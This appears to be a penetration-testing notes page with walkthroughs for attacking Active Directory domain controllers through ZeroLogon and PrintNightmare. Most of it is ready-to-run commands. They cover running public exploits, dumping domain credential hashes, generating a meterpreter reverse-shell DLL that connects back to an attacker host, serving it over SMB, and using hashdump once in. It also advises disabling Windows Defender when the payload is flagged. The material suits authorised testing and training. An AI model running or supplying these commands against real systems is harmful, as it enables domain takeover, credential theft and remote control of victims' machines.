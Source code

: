 # Additional Active Directory Attacks

## Abusing ZeroLogon

- Make sure to restore if you use this attack, otherwise the domain controller will be broken. You can also use the tester and tell the client in your report (to avoid breaking anything).
- Clone https://github.com/dirkjanm/CVE-2020-1472
- https://github.com/SecuraBV/CVE-2020-1472 to copy the tester file **`zerologon_tester.py`**
- All we need for the zero logon tester is the name of the Domain Controller (HYDRA-DC) and the IP address: `python3 zerologon_tester.py <DOMAIN CONTROLLER> <DC-IP>`
- Next, to run the exploit all we need to do is use: `python3 cve-2020-1472-exploit.py <DOMAIN CONTROLLER> <DC-IP>`
- To check, use secretsdump: `secretsdump.py -just-dc <DOMAIN>/<DOMAIN CONTROLLER>\$@<DC-IP>`
- Now to restore, first copy the administrator hash and `secretsdump.py administrator@<DC-IP> -hash <hash>`. Copy the entire `plain_password_hex`.
- Back in the exploit folder run `python3 restorepassword.py <DOMAIN>/<DOMAIN CONTROLLER>@<DOMAIN CONTROLLER> -target-ip <DC-IP> -hexpass <password hex>`

## PrintNightmare (CVE-2021-1675) Walkthrough

PrintNightmare is a critical security flaw found in the Windows Print Spooler service, which manages print jobs sent to printers. It allows an attacker to execute remote code with system-level privileges on affected machines.

For this, we are going to use the resources found here https://github.com/cube0x0/CVE-2021-1675.

To check if our DC is vulnerable to this attack:

`rpcdump.py @<DC-IP> | egrep 'MS-RPRN|MS-PAR'`

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

If we see the above after hitting `ENTER`, then the DC is vulnerable.

Before running the exploit, we need to install the latest version of impacket:

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Once that’s done.

Let’s grab the actual exploit `https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py`. We can copy the actual code, open a text document, paste the code and save it as a python file (Don’t forget to add the `.py` extension).

Next to generate a malicious dll payload:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=5555 -f dll > shell.dll`.

Since, we’re using msfvenom for the payload….

We’ll start up `msfconsole` and `use exploit/multi/handler` for the meterpreter session:

- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LPORT 5555`
- `set LHOST <KALI-IP>`
- `run`

Now open up a new terminal window, to set up a smbserver using impacket to host the `shell.dll` payload:

- `smbserver.py share 'pwd'` (Make sure to run this in the same directory as the payload).

Everything is set up. Time to run the exploit.

`python3 CVE-2021-1675.py <DOMAIN>/<user>:<pass>@<DC-IP>@<DC-IP> '\\<KALI-IP>\share\shell.dll'`

**NOTE: If there’s an error, try running smbserver.py with the `-smb2support` tag. AND if upon running we get a `ERROR_VIRUS_INFECTED` notification, login into the Domain Controller and disable Windows Defender.**

Back in msfconsole, we should a meterpreter shell. We can do anything now such as using the `hashdump` command to dump the hashes.
